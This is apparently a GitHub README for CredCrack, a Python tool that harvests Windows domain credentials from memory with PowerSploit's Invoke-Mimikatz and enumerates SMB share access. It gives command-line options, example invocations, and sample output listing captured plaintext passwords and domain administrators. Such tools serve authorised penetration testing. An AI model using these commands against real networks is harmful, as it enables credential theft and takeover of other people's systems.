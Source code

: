 # CredCrack

##Introduction
-----

CredCrack is a fast and stealthy credential harvester. It exfiltrates credentials in memory and in the clear without ever touching disk. Upon obtaining credentials, CredCrack will parse and output the credentials while identifying any domain administrators obtained. CredCrack also comes with the ability to list and enumerate share access and yes, it is threaded!

CredCrack has been tested and runs with the tools found natively in Kali Linux. CredCrack solely relies on having PowerSploit's "Invoke-Mimikatz.ps1" under the /var/www directory. [Download Invoke-Mimikatz Here](https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1)

## Help
-----
```
CredCrack - A stealthy credential harvester by Jonathan Broche (@g0jhonny)

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  File containing IPs to harvest creds from. One IP per
                        line.
  -r RHOST, --rhost RHOST
                        Remote host IP to harvest creds from.
  -es, --enumshares            Examine share access on the remote IP(s)
  -l LHOST, --lhost LHOST
                        Local host IP to launch scans from.
  -t THREADS, --threads THREADS
                        Number of threads (default: 10)

Required:
  -d DOMAIN, --domain DOMAIN
                        Domain or Workstation
  -u USER, --user USER  Domain username
  -p PASSWD, --passwd PASSWD
                        Domain user password

Examples: 

./credcrack.py -d acme -u bob -p Password123 -f hosts --enumshares
./credcrack.py -d acme -u bob -p Password123 -f hosts -l 192.168.1.102 -t 20
```

## Examples
-----

###Enumerating Share Access

```
./credcrack.py -r 192.168.1.100 -d acme -u bob -p Password123 --es

 ---------------------------------------------------------------------
  CredCrack v1.0 by Jonathan Broche (@g0jhonny)
 ---------------------------------------------------------------------
 
[*] Validating 192.168.1.102
[*] Validating 192.168.1.103
[*] Validating 192.168.1.100

 -----------------------------------------------------------------
 192.168.1.102 - Windows 7 Professional 7601 Service Pack 1 
 -----------------------------------------------------------------
 
 OPEN      \\192.168.1.102\ADMIN$ 
 OPEN      \\192.168.1.102\C$ 

 -----------------------------------------------------------------
 192.168.1.103 - Windows Vista (TM) Ultimate 6002 Service Pack 2 
 -----------------------------------------------------------------
 
 OPEN      \\192.168.1.103\ADMIN$ 
 OPEN      \\192.168.1.103\C$ 
 CLOSED    \\192.168.1.103\F$ 

 -----------------------------------------------------------------
 192.168.1.100 - Windows Server 2008 R2 Enterprise 7601 Service Pack 1 
 -----------------------------------------------------------------
 
 CLOSED    \\192.168.1.100\ADMIN$ 
 CLOSED    \\192.168.1.100\C$ 
 OPEN      \\192.168.1.100\NETLOGON 
 OPEN      \\192.168.1.100\SYSVOL 

[*] Done! Completed in 0.8s
```

###Harvesting credentials
-----

```
./credcrack.py -f hosts -d acme -u bob -p Password123 -l 192.168.1.100

 ---------------------------------------------------------------------
  CredCrack v1.0 by Jonathan Broche (@g0jhonny)
 ---------------------------------------------------------------------
 
[*] Setting up the stage
[*] Validating 192.168.1.102
[*] Validating 192.168.1.103
[*] Querying domain admin group from 192.168.1.102
[*] Harvesting credentials from 192.168.1.102
[*] Harvesting credentials from 192.168.1.103

                  The loot has arrived...
                         __________
                        /\____;;___\    
                       | /         /    
                       `. ())oo() .      
                        |\(%()*^^()^\       
                       %| |-%-------|       
                      % \ | %  ))   |       
                      %  \|%________|       

                
[*] Host: 192.168.1.102 Domain: ACME User: jsmith Password: Good0ljm1th
[*] Host: 192.168.1.103 Domain: ACME User: daguy Password: P@ssw0rd1!

     1 domain administrators found and highlighted in yellow above!

[*] Cleaning up
[*] Done! Loot may be found under /root/CCloot folder
[*] Completed in 11.3s
```

####Contact
Contact me at [@g0jhonny](https://twitter.com/g0jhonny) with any questions or features you'd like to see in the next update. For bugs submit an [issue](https://github.com/gojhonny/CredCrack/issues/new)!

####Credits
Special thanks to [@brav0hax](https://twitter.com/brav0hax) and [@altonjx](https://twitter.com/altonjx) for helping me test the script and [@mattifestation](https://twitter.com/mattifestation) for the awesome PowerSploit framework.
